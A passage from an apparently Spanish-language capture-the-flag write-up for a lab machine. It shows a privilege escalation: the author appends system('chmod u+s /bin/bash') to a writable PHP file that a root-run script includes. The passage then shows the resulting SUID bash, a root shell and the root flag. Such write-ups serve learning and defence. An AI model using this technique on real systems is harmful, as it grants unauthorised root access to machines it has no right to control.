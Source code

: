 ```null
	}
}
else
{
	file_put_contents("/var/lib/playbuff/merge.log","no issues yet");
	$update = file_get_contents("/var/lib/playbuff/logs.txt");
	$query = mysqli_query($conn, "update stats set status='$update' where id=1");
	if($query)
	{
		echo 'Update Success!';
	}
}
?>
```

Se está incluyendo el script ```/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php```. Su propietario es ```www-data``` y tiene capacidad de escritura. Me convierto en este y le añado una instrucción que le asigne el privilegio SUID a la ```bash```

```null
telegen@player:/tmp$ exit
exit
www-data@player:/tmp$
```

```php
system("chmod u+s /bin/bash");
```

Puedo ver la segunda flag

```null
www-data@player:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1021112 Oct  8  2014 /bin/bash
```

```null
bash-4.3# cat /root/root.txt
c171efc58bf4b42efe8dc9b046ac892e
```